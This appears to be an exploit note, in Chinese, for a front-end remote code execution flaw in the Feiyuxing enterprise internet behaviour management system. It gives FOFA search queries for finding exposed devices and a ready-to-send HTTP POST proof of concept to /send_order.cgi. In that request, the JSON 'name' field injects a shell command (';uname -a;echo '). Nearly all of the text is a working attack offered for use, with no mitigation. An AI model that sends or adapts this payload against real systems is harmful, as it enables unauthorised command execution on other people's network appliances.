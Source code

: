 ## 飞鱼星上网行为管理系统企业版前台RCE


## fofa
```
title="飞鱼星企业"
title="飞鱼星企业级智能上网行为管理系统"
```

## poc
```
POST /send_order.cgi?parameter=operation HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

{"opid":"777777777777777777","name":";uname -a;echo ","type":"rest"}
```

![d3caa0beea2be24633c0996d8ae8819c](../../images/1be7ce47-2ee2-476c-af85-c258c27dc95f.png)
